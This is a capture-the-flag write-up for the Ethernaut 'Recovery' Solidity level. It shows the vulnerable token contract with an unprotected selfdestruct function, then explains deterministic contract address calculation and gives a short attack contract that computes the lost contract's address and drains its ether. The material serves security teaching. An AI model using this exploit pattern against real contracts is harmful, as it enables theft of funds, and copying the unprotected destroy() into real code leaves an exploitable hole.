 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel17.svg">


# Target Contract Review

Given contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

Challenge's message:

> A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address. This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

This challenge is quite easy. Basically, the Recovery contract generates a token with the bits of help of the SimpleToken contract. The important thing about the SimpleToken contract is it has a **destroy()** function which selfdestruct the contract addresses. 


## Contract Address Calculating

The address for an Ethereum contract is deterministically computed from the address of its creator (sender) and how many transactions the creator has sent (nonce). The sender and nonce are RLP encoded and then hashed with Keccak-256. Here is an example calculator code in Solidity.

```solidity
bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), sender, bytes1(0x01)));
address addr = address(uint160(uint256(hash)));
```

First, it finds the hash and computed the contract address. More about [this topic.](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)

# Subverting

The only thing we must to do is calculate lost contract's address and selfdestruct it. Here is our short attack contract.

```solidity
pragma solidity ^0.8.20;

import './Recovery.sol';

contract Attack{

    SimpleToken target;
    address public addr;

    constructor(address payable _challenge){
        bytes32 hash = keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _challenge, bytes1(0x01)));
        addr = address(uint160(uint256(hash)));
        target = SimpleToken(payable(addr));
    }

    function attack()external{
        target.destroy(payable(msg.sender));
    }

}
```

Deploy the attack contract with target contract's address. See the transaction on [etherscan.](https://sepolia.etherscan.io/tx/0x0e33934f10ffdc3871d13cf4f9d743f320c1e9c57a89a58145482b1d05990d8b)



<p align="center"><img src=""></p>

<p align="center"><img src=""></p>


Ethernaut's message:

> Contract addresses are deterministic and are calculated by keccak256(address, nonce) where the address is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions). Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.


**_by wasny0ps_**
